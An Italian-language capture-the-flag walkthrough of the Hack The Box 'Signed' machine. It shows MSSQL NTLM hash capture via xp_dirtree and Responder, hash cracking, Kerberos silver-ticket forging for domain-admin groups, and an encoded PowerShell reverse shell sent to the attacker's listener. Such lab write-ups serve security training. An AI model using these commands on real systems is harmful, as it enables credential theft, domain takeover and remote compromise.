


# **Signed**



Machine Information:
```text
As is common in real life Windows penetration tests, you will start the Signed box with credentials for the following account which can be used to access the MSSQL service: scott / Sm230#C5NatH
```

## **Reconnaissance**
Si effettua una prima scansione per individuare le porte TCP raggiungibili sulla macchina target.
```bash
$ nmap -p- --min-rate 1000 10.10.11.90
```

```text
Nmap scan report for 10.10.11.90
Host is up (0.12s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
1433/tcp open  ms-sql-s

Nmap done: 1 IP address (1 host up) scanned in 131.67 seconds
```

Si approfondisce l'analisi lanciando una scansione sulla porta 1433/tcp per rilevare la versione del Microsoft Server SQL esposto.

```bash
$ nmap -p1433 -sCV 10.10.11.90
```
```text
Nmap scan report for 10.10.11.90
Host is up (0.12s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.90:1433: 
|     Target_Name: SIGNED
|     NetBIOS_Domain_Name: SIGNED
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: SIGNED.HTB
|     DNS_Computer_Name: DC01.SIGNED.HTB
|     DNS_Tree_Name: SIGNED.HTB
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-10-21T10:04:01
|_Not valid after:  2055-10-21T10:04:01
|_ssl-date: 2025-10-21T13:35:20+00:00; -4h05m43s from scanner time.
| ms-sql-info: 
|   10.10.11.90:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433

Host script results:
|_clock-skew: mean: -4h05m43s, deviation: 0s, median: -4h05m43s

Nmap done: 1 IP address (1 host up) scanned in 15.57 seconds
```

Si aggiorna il file **/etc/hosts** aggiungendo il seguente record:
```text
10.10.11.90 DC01.SIGNED.HTB SIGNED.HTB DC01
```

## **MSSQL as scott**
Si usano le credenziali fornite per accedere al servizio MSSQL.
```bash
$ impacket-mssqlclient 'DC01'/'scott':'Sm230#C5NatH'@10.10.11.90
```
```text
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (scott  guest@master)>
```

Si ricavano informazioni per l'utente **guest**.
```text
SQL (scott  guest@master)> enum_users
```
```
UserName             RoleName   LoginName   DefDBName   DefSchemaName       UserID     SID   
------------------   --------   ---------   ---------   -------------   ----------   -----   
dbo                  db_owner   sa          master      dbo             b'1         '   b'01'   
guest                public     NULL        NULL        guest           b'2         '   b'00'   
INFORMATION_SCHEMA   public     NULL        NULL        NULL            b'3         '    NULL   
sys                  public     NULL        NULL        NULL            b'4         '    NULL 
```

Si verifica se **xp_cmdshell** puo' essere eseguito da scott.
```text
SQL (scott  guest@master)> xp_cmdshell whoami
```
```text
ERROR(DC01): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
```

Si verifica anche se **xp_dirtree** puo' essere eseguito come scott.
```text
SQL (scott  guest@master)> xp_dirtree .
```
```text
subdirectory   depth   file   
------------   -----   ----
```

L'utilita' **xp_dirtree** permette di elencare il contenuto di **shares**, e per questo motivo alcuni DBA permettono di utilizzare il **service account** che sta eseguendo il server SQL per accedere alle risorse.

```text
SQL (scott  guest@master)> EXEC sp_helprotect
```
```text
sys                  xp_dirtree                                                   public    dbo       b'Grant     '   Execute                                     .           
```

Dato che e' marcato come **public**, significa chiunque e' in grado di lanciare questo comando e di sfruttare il service account sottostante.

## **Exploit the xp_dirtree**
Sulla macchina Kali si mette in ascolto un server SMB.
```bash
$ responder -I tun0
```

E si esegue sul MSSQL server il comando **xp_dirtree** per accedere ad una risorsa esposta dal server SMB.
```text
SQL (scott  guest@master)> xp_dirtree \\10.10.16.56\share
```

Si ottiene NTLM hash di **mssqlsvc**.


Si memorizza NTLMv2 hash nel file **mssqlsvc.hash** e si tenta il cracking con HashCat.
```bash
$ hashcat -a 0 -m 5600 mssqlsvc.hash /usr/share/wordlists/rockyou.txt.gz
```
```text
MSSQLSVC::SIGNED:04ec3ded2b498b85:8cf9c3744cd7810d28c95254855036cc:0101000000000000800998c49942dc011cdb094711cc9f20000000000200080031005a005800410001001e00570049004e002d003900460041005a00590058005600440052004b004b0004003400570049004e002d003900460041005a00590058005600440052004b004b002e0031005a00580041002e004c004f00430041004c000300140031005a00580041002e004c004f00430041004c000500140031005a00580041002e004c004f00430041004c0007000800800998c49942dc0106000400020000000800300030000000000000000000000000300000d01aa5cbd3eb08b06dc712afb83b382bf8fa9b5f4a7d04c491d84cfb6c45ac7e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00350036000000000000000000:purPLE9795!@
```

## **MSSQL as mssqlsvc**

Si tenta l'accesso come **mssqlsvc**.
```bash
$ impacket-mssqlclient 'mssqlsvc':'purPLE9795!@'@10.10.11.90 -windows-auth
```
```text
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (SIGNED\mssqlsvc  guest@master)>
```

Si verifica se si hanno i permessi di **sysadmin**.
```text
SQL (SIGNED\mssqlsvc  guest@master)> SELECT IS_SRVROLEMEMBER('sysadmin');

-   
0   
```

Allora si elencano tutti gli utenti con i permessi di **sysadmin**.
```text
SQL (SIGNED\mssqlsvc  guest@master)> SELECT name FROM master.sys.server_principals WHERE IS_SRVROLEMEMBER('sysadmin', name) = 1;
```
```text
name                        
-------------------------   
sa                          
SIGNED\IT                   
NT SERVICE\SQLWriter        
NT SERVICE\Winmgmt          
NT SERVICE\MSSQLSERVER      
NT SERVICE\SQLSERVERAGENT
```

L'idea e' quella di creare un **silver ticket** per accedere come **SIGNED\IT** e ottenere i privilegi di **sysadmin**.

## **Silver Ticket Forging**
Sono necessari:
- Domain SID
- MSSQLSVC RID e IT group RID
- SPN del servizio MS SQL
- NT hash del servizio MSSQL

### Domain SID & RID
Si ottiene il SID di **mssqlsvc** e **SIGNED\IT**.
```text
SQL (SIGNED\mssqlsvc  guest@master)> SELECT SUSER_SID('SIGNED\mssqlsvc')
```
```text
b'0105000000000005150000005b7bb0f398aa2245ad4a1ca44f040000'   
```

```text
SQL (SIGNED\mssqlsvc  guest@master)> SELECT SUSER_SID('SIGNED\IT')
```
```text 
b'0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000'
```

Si trasformano entrambi i SID nel formato stringa utilizzando lo script **/apaonessaa/bin2sid** [https://github.com/apaonessaa/bin2sid](https://github.com/apaonessaa/bin2sid).
```text
MSSQLSVC SID: S-1-5-21-4088429403-1159899800-2753317549-1103

SIGNED\IT SID: S-1-5-21-4088429403-1159899800-2753317549-1105
```

Da qui si ottengono Domain SID e i RID.
```text
Domain SID: S-1-5-21-4088429403-1159899800-2753317549

MSSQLSVC RID: 1103
SIGNED\IT RID: 1105
```

### SPN
Il formato SPN di istanze SQL Server di default e' il seguente:
```text
MSSQLSvc/SIGNED.HTB:1433
```

### NT Hash
Si costruisce NT hash della password di MSSQLSVC.
```bash
$ echo -n 'purPLE9795!@' | iconv -f utf8 -t utf-16le | openssl dgst -md4
```
```text
MD4(stdin)= ef699384c3285c54128a3ee1ddb1a0cc
```

### Silver Ticket Crafting
Si crea il silver ticket per il servizio MSSQL per accedere come MSSQLSvc con i privilegi del gruppo IT.
```bash
$ impacket-ticketer -domain SIGNED.HTB -domain-sid 'S-1-5-21-4088429403-1159899800-2753317549' -nthash 'ef699384c3285c54128a3ee1ddb1a0cc' -spn 'MSSQLSvc/SIGNED.HTB' -groups 1105 -user-id 1103 mssqlsvc
```
```
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for SIGNED.HTB/mssqlsvc
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in mssqlsvc.ccache
```

Si accede a MSSQL.
```bash
$ KRB5CCNAME="${PWD}/mssqlsvc.ccache" impacket-mssqlclient -k 'SIGNED.HTB/mssqlsvc'@SIGNED.HTB -windows-auth -no-pass -debug
```

Si ha l'accesso con i privilegi di **sysadmin**. 
```text
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT IS_SRVROLEMEMBER('sysadmin');
    
-   
1 
```

Si esegue un listener alla porta 4444 sulla macchina Kali.
```bash
$ rlwrap -cAr nc -lvnp 4444
```

E si lancia una reverse shell con **xp_cmdshell**.
```powershell
SQL (SIGNED\mssqlsvc  dbo@master)> EXEC xp_cmdshell 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AeAAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=';
```

Reverse shell:
```powershell
PS C:\Windows\system32> whoami
signed\mssqlsvc
```

## **Shell as mssqlsvc**

Si accede al contenuto del file **user.txt**.
```powershell
PS C:\Users\mssqlsvc> cat Desktop\user.txt
```
```
00e85b53b86fd3f850cd32fdbc907ac3
```

## **Privilege Escalation**
Si vuole creare un ticket con i privilegi di **Administrator**.
```powershell
PS C:\Windows\system32> net user Administrator /domain
```
```
User name                    Administrator
Full Name                    
Comment                      Built-in account for administering the computer/domain
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/2/2025 9:12:32 AM
Password expires             Never
Password changeable          10/3/2025 9:12:32 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   11/5/2025 2:35:42 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *Domain Admins        *Group Policy Creator 
                             *Enterprise Admins    *Schema Admins        
                             *Domain Users         
The command completed successfully.
```

Si ottengono i SID dal **group account management**.
```powershell
PS C:\Windows\system32> wmic group get name,sid 
```
```
Name                                     SID
Domain Admins                            S-1-5-21-4088429403-1159899800-2753317549-512 
Enterprise Admins                        S-1-5-21-4088429403-1159899800-2753317549-519
```

Si crea un silver ticket per MSSQLSvc specificando l'appartenenza ai gruppi 512 e 519.
```bash
$ impacket-ticketer -domain SIGNED.HTB -domain-sid 'S-1-5-21-4088429403-1159899800-2753317549' -nthash 'ef699384c3285c54128a3ee1ddb1a0cc' -spn 'MSSQLSvc/SIGNED.HTB' -groups 512,519,1105 -user-id 1103 mssqlsvc 
```
```
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for SIGNED.HTB/mssqlsvc
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in mssqlsvc.ccache
```

```bash
$ KRB5CCNAME="${PWD}/mssqlsvc.ccache" impacket-mssqlclient -k 'SIGNED.HTB/mssqlsvc'@SIGNED.HTB -windows-auth -no-pass -debug
```

Di default, MSSQL permette la lettura di file del sistema operativo a chi ne possiede i privilegi. 

Si verifica il possesso dei permessi di ADMINISTER BULK OPERATIONS e ADMINISTER DATABASE BULK OPERATIONS. 
```
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';
```
```
entity_name   subentity_name   permission_name              
-----------   --------------   --------------------------   
server                         ADMINISTER BULK OPERATIONS
```

Allora, si può accedere al file **root.txt**.
```
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT * FROM OPENROWSET(BULK N'C:/Users/Administrator/Desktop/root.txt', SINGLE_CLOB) AS Contents
```
```
BulkColumn                                
---------------------------------------   
b'd81e8587a025636c73cfce5caa1a6587\r\n' 
```
